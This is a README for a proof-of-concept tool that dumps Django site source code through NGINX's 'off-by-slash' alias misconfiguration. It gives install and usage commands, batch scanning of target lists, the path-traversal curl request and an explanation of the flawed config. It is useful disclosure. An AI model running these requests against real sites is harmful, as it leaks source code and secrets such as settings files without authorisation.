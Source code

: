 # POC: Off-by-slash Django Site Dumper

A proof of concept to dump Django websites affected by NGINX's off-by-slash misconfiguration.


## Installation

```bash
$ git clone https://github.com/adamyordan/offbyslash-django-dumper
$ cd offbyslash-django-dumper
$ pip install -r requirements.txt
```


## Usage
Pass target url as argument
```bash
$ python main.py --url http://django-site.com/
```

Or using files containing multiple target urls
```bash
$ cat targets.txt
http://django-site.com/
https://other-affected-site.org/
http://cool-website.me/

$ python main.py --file targets.txt
```

The result is available at `dump` directory
```
$ tree dump

dump/
└── http-django-site.com-
    ├── api
    │   ├── urls.py
    │   ├── users.py
    │   └── views.py
    ├── common
    │   └── logger.py
    ├── manage.py
    └── app
        ├── __init__.py
        ├── settings.py
        ├── urls.py
        ├── validate.py
        └── wsgi.py
```

## Explanation

This dumper works by using a local file inclusion vulnerability caused by a misconfiguration when using NGINX to serve 
static files.

Equivalent curl command used by this dumper to dump local files is shown as below:
```bash
$ curl http://django-site.com/static../manage.py
```

Affected sites will return a response with status `200 OK` and body containing the source code of `manage.py` file.


This local file inclusion is caused by a slight but fatal mistake in Nginx's configuration, some people named it 
_Nginx off-by-slash fail_.

For example, here is a snippet of affected nginx rule:
```
location /static {
    alias /home/app/static/;
}
```

By sending a request to `http://affected-site.com/static../manage.py`, Nginx matches the rule and appends the remainder 
to destination `/home/app/static/../manage.py`. Therefore serving the `manage.py` as static file.


This dumper utilize vulnerability to automatically crawl the source code of Django sites, inferring available
source code files by using static analysis (read: pattern matching!).
